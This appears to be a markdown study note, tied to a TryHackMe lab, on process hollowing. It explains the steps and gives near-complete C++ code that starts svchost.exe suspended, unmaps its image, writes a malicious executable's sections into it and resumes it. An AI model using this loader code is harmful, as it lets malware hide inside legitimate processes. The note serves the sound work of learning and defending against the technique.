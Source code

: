 # Process Hollowing

Lauching of non-malicious process in a suspended state, then *hollowing* the image of process and replaced with malicious executable image.  From [n0n0ph1](https://github.com/m0n0ph1/Process-Hollowing) *"..a bootstrap application creates a seemingly innocent process in a suspended state. The legitimate image is then unmapped and replaced with the image that is to be hidden. If the preferred image base of the new image does not match that of the old image, the new image must be rebased. Once the new image is loaded in memory the EAX register of the suspended thread is set to the entry point. The process is then resumed and the entry point of the new image is executed."*

Similiar to [[Windows-Shellcode-Injection]] this technique inject an entire malicious file into a process by “hollowing” or un-mapping the process and injecting specific PE (**P**ortable **E**xecutable) data and sections into the targeted process.

#### Process Hollowing Steps

Windows API calls interact with process memory steps that diverge to  `Malicious Memory Region` within the `Hollowed Memory Region`:
1.  Create a target process in a suspended state.
2.  Open a malicious image.
3.  Un-map legitimate code from process memory.
4.  Allocate memory locations for malicious code and write each section into the address space.
5.  Set an entry point for the malicious code.
6.  Take the target process out of a suspended state.

1. Create Process - Create a target process in a suspended state.
2. Suspend Process
	1. Malicious Process - Open a malicious image.
		1. Malicious File
		2. VirtualAlloc
		3. ReadFile
	2. Un-map legitimate code from process memory.
		1. Process Memory
		2. Thread Stack
			1. GetThreadContext
			2. EBX Register
			3. ZwUnmapViewOfSection -> Process Memory Region
		3. Process Heap
		4. Registers
		5. DLLs
	3. Malicious Process 
			1. VirtualAlloc -Allocate memory locations for malicious code 
			2. WriteProcessMemory -  write each section into the address space of Hollowed Memory Region
3. ResumeThread - Take the target process out of a suspended state.
	1. Set ThreadContext
	2. EAX Register - Changed to Malicious Memory Region


```cpp
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
        (LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
        NULL,
        NULL,
        NULL,
        TRUE, // Handles are inherited from the calling process
        CREATE_SUSPENDED, // New process is suspended
        NULL,
        NULL,
        target_si, // pointer to startup info
        target_pi) == 0) { // pointer to process information
        cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
        return 1;

HANDLE hMaliciousCode = CreateFileA(
        (LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
        GENERIC_READ, // Read-only access
        FILE_SHARE_READ, // Read-only share mode
        NULL,
        OPEN_EXISTING, // Instructed to open a file or device if it exists
        NULL,
        NULL
);


DWORD maliciousFileSize = GetFileSize(
        hMaliciousCode, // Handle of malicious image
        0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
        NULL,
        maliciousFileSize, // File size of malicious image
        0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
        0x04 // Enables read/write access (PAGE_READWRITE)
);


DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
        hMaliciousCode, // Handle of malicious image
        pMaliciousImage, // Allocated region of memory
        maliciousFileSize, // File size of malicious image
        &numberOfBytesRead, // Number of bytes read
        NULL
        )) {
        cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
        TerminateProcess(target_pi->hProcess, 0);
        return 1;
}

CloseHandle(hMaliciousCode);

c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
        target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
        &c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
        target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
        (PVOID)(c.Ebx + 8), // Pointer to the base address
        &pTargetImageBaseAddress, // Store target base address 
        sizeof(PVOID), // Bytes to read 
        0 // Number of bytes out
);

HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
        hNtdllBase, // Handle of ntdll
        "ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
        target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
        pTargetImageBaseAddress // Base address of the process
);

PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
        target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
        pTargetImageBaseAddress, // Base address of the process
        sizeOfMaliciousImage, // Byte size obtained from optional header
        0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
        0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);

if (!WriteProcessMemory(
        target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
        pTargetImageBaseAddress, // Base address of the process
        pMaliciousImage, // Local memory where the malicious file resides
        pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
        NULL
)) {
        cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}



for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
        PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

        WriteProcessMemory(
                target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
                (PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
                (PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
                pSectionHeader->SizeOfRawData, // Byte size of current section
                NULL
        );
}

c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
        target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
        &c // Pointer to the stored context structure
);

ResumeThread(
        target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);

```


## References

[THM Abusing Window Internals](https://tryhackme.com/room/abusingwindowsinternals)
[n0n0ph1 explaination of Process Hollowing](https://github.com/m0n0ph1/Process-Hollowing) 
[iredtem](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)